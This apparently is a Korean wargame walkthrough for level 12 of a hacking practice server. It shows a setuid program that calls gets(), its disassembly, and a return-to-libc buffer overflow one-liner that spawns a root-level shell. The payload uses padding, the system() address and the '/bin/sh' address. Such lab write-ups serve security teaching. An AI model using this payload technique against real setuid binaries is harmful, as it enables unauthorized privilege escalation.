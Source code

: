 ```yaml
---
sort: 12
---
```


# Level 12

```note
id : level12

password : it is like this
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 조져보자.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
int main( void )
{
	char str[256];

 	setreuid( 3093, 3093 );
	printf( "문장을 입력하세요.\n" );
	gets( str );
	printf( "%s\n", str );
}
```

gets는 input의 길이에 상관없이 개행문자를 만날때까지 복사를 한다. 따라서 buffer overflow 취약점이 존재한다.<br>
이번에는 argv가 아니라 stdin을 통해서 입력받기 때문에 pipe를 이용하여 입력해야하는 점을 제외하면 level11과 똑같다<br><br>
GDB를 이용하여 attackme의 main함수를 disassemble했다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x08048470 (main+0):	push   %ebp
0x08048471 (main+1):	mov    %esp,%ebp
0x08048473 (main+3):	sub    $0x108,%esp
0x08048479 (main+9):	sub    $0x8,%esp
0x0804847c (main+12):	push   $0xc15
0x08048481 (main+17):	push   $0xc15
0x08048486 (main+22):	call   0x804835c (setreuid)
0x0804848b (main+27):	add    $0x10,%esp
0x0804848e (main+30):	sub    $0xc,%esp
0x08048491 (main+33):	push   $0x8048538
0x08048496 (main+38):	call   0x804834c (printf)
0x0804849b (main+43):	add    $0x10,%esp
0x0804849e (main+46):	sub    $0xc,%esp

<b>0x080484a1 (main+49):	lea    0xfffffef8(%ebp),%eax
0x080484a7 (main+55):	push   %eax
0x080484a8 (main+56):	call   0x804831c (gets) </b>

0x080484ad (main+61):	add    $0x10,%esp
0x080484b0 (main+64):	sub    $0x8,%esp
0x080484b3 (main+67):	lea    0xfffffef8(%ebp),%eax
0x080484b9 (main+73):	push   %eax
0x080484ba (main+74):	push   $0x804854c
0x080484bf (main+79):	call   0x804834c (printf)
0x080484c4 (main+84):	add    $0x10,%esp
0x080484c7 (main+87):	leave  
0x080484c8 (main+88):	ret    
0x080484c9 (main+89):	lea    0x0(%esi),%esi
</pre>

```bash
[level12@ftz level12]$ ldd ./attackme 
	libc.so.6 => /lib/tls/libc.so.6 (0x42000000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```

stdin으로 입력받는 것을 제외하면 level11과 환경이 완벽하게 같은 것을 확인할 수 있다. 따라서 아래와 같이 shell을 딸 수 있었다. pipe를 이용하여 stdin으로 redirect했다. `;cat`을 붙이는 이유는 쉘을 딴 후에도 stdin은 pipe에 의해 redirect되어있는 상태기 때문에 cat을 통해서 shell로 input을 전달하도록 해야한다.

```bash
# padding 0x10c byte + system함수 주소 + 4byte padding + "/bin/sh" 주소
[level12@ftz level12]$ (python -c "print('A'*0x10c + '\xc0\xf2\x03\x42\x41\x41\x41\x41\xa4\x7e\x12\x42\n')";cat) | ./attackme
문장을 입력하세요.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA쟌BAAAA?B
my-pass
```

```tip
## 알게 된 점

buffer overflow, RTL

pipe
```